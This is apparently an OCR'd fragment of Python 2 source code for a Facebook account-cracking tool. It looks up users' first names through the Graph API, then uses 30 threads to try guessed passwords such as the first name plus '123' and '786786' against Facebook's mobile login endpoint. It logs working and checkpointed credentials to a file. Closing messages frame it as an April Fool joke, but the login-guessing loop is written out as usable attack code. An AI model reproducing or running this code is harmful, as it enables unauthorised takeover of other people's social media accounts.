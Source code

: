 			
	def main(arg):
		global cpb,oks
		user = arg
		try:
			os.mkdir('save')
		except OSError:
			pass
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b["first_name"]+"123"
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'error_msg' in q:
				print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '[Checkpoint] ' + user + ' | ' + pass1
					cps = open("save/checkpoint.txt", "a")
					cps.write(user+"|"+pass1+"\n")
					cps.close()
					cpb.append(user+pass1)
				else:
					pass2 = "786786"
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '[Checkpoint] ' + user + ' | ' + pass2
							cps = open("save/checkpoint.txt", "a")
							cps.write(user+"|"+pass2+"\n")
							cps.close()
							cpb.append(user+pass2)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 50*"-"
	print '[✓] Process Has Been Completed ....'
	print "[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb))
	os.system("rm -rf save")
	cb()
	print logo
	print
	psb(" oh no what the fuck, where is my account. oh no.")
	cb()
	print logo
	print
	psb(" hello dear friends, as it is clear from the name of this tool. b april i have made this tool on first april to make my subscribers my friends my dears april fool and make them shocked and laugh.")
	psb(" if you are using this tool after first april then, i am sorry you waste your time to install this tool in your terminal.")